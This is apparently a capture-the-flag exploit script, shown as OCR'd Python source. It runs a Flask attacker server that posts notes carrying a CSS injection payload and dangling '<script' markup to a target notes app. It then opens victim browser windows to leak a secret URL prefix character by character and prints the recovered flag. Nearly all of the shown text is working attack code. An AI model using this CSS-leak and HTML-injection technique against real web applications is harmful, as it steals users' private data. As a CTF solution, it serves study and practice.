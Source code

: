 ```py


   return css

def create_note():
   global req
   global known_prefix
   global HOST
   payload = generate_css_payload(known_prefix)
   url = HOST+"/notes/create"
   data = {
       "title": "x",
       "content": f'<div id="custom-theme-styles">{payload}</div><form name="options"><input id="custom_theme"></form><script x="'
   }
   response = req.post(url, data=data, allow_redirects=False)
   return(response.headers.get('Location'))


@app.route('/')
def index():
   global HOST
   html = f'''
   <!DOCTYPE html>
   <html>
   <head>
     <title>CSS Leak</title>
   </head>
   <body>
   <script type="module">
   function sleep(ms) {{
       return new Promise(resolve => setTimeout(resolve, ms));
       }}
   (async() =>{{
   await sleep(200)
   for(let i = 0; i<16; i++){{
   const x = await fetch("/prefix")
   const y = await x.text()
   window.open("http://localhost:5001/"+y, "_blank")
   window.open("http://localhost:5001/notes/dashboard", "_blank")
   }}
   const x = await fetch("/done")


   }})()
   </script>
   </body>
   </html>
   '''
   return make_response(html)


@app.route('/prefix')
def prefixs():
   global known_prefix
   return Response(create_note(), mimetype='text/plain')


@app.route('/done')
def done():
   global known_prefix
   print(req.get(HOST+known_prefix).text.split('<p>Here is your flag: ')[1].split('</')[0])
   return Response(create_note(), mimetype='text/plain')
```